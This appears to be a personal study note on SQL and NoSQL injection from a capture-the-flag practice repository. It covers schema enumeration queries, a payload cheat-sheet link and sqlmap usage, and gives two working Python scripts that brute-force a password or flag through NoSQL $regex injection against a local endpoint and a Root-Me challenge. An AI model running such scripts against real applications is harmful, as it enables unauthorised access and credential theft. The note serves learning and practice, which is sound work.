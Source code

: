 # SQL Injection
## 1. SQL
### 1.1. Overview
- syntax to comment: `--`, `/* */`, ...
- union: 
```
SELECT column_name(s) FROM table1 -> clause 1
UNION
SELECT column_name(s) FROM table2 -> clause 2
```
-> when clause 1 fail, will execute clause 2
- group_concat: string concatenation

### 1.2. Sqlite
- `select sql from sqlite_master`
-> show schema

### 1.3. Mysql
- `select table_name from information_schema.tables where table_schema=database()`
-> show name of tables
- `select column_name from information_schema.columns where table_name=table_name`
-> show columns name of that table

### 1.4. Cheetsheet 
`https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection`

## 2. Attack
### 2.1. SQL injection boolean
- injection to query to bypass 

### 2.2. SQL injection blind
- base on response as like as error, timeout to collect data
example:
```
import requests, string
req = requests.session()
arr = string.digits + string.ascii_letters + "_@{}-/()!\"$%=^[]:;"

def blind(data):
    for char in arr:
        res = req.post('http://0.0.0.0/api/sqliMongo',json={'username':'admin','password':{"$regex": f"^{data}{char}"}}).json()
        if res['data']:
            return char
    return None        

def dump_data():
    data = '' 
    while True:
        char = blind(data)
        if char == None:
            return data 
        data += char 
        print('[+] password: = ',data)

print('[+] password found : ',dump_data())
```

### 2.3. Nosql injection
```
import requests, string
arr = string.digits + string.ascii_letters + "_@{}-/()!\"$%=^[]:;"
req = requests.session()

def countchar() -> int:
    for i in range(2,50):
        res = req.get('http://challenge01.root-me.org/web-serveur/ch48/index.php?chall_name=nosqlblind&flag[$regex]=%s'%(i*'.')).text
        if 'This is not a valid flag for the'  in res:    
            return i 

def findpassword( n : int) -> str:
    password = ''
    for _ in range(n):
        for c in arr:
            if 'Yeah this is the flag for' in req.get('http://challenge01.root-me.org/web-serveur/ch48/index.php?chall_name=nosqlblind&flag[$regex]=^' + password + c).text:
                print('[+] ',password)
                password += c
                break
    return password


n = countchar()
print('length password ',n)
print(findpassword(n))
```
### 2.4. Tool sqlmap
- install: `brew install sqlmap`
- use: `sqlmap -r file_request --batch -D database --tables`
